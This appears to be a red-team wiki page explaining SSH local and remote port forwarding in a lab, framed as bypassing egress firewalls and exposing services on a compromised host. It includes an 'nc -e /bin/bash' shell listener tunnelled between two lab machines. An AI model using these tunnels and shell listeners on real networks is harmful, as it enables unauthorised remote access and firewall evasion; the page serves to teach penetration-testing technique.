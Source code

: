 # Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.   
  
For example, if you have a host that you want to access but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER \(like a proxy\) which DOES have access to the host you want to access. Let's see an example.

#### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999\) and forward all that traffic to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins

![](../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box which has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words - it exposes an otherwise obscured port to the host on the other end of the tunnel.

Synatx for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any port sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host with an obsucure service.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\):

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```text
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

{% embed data="{\"url\":\"https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html\",\"type\":\"link\",\"title\":\"SSH Tunnel - Local and Remote Port Forwarding Explained With Examples -  Trackets Blog\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.trackets.com/images/favicon.ico\",\"aspectRatio\":0}}" %}

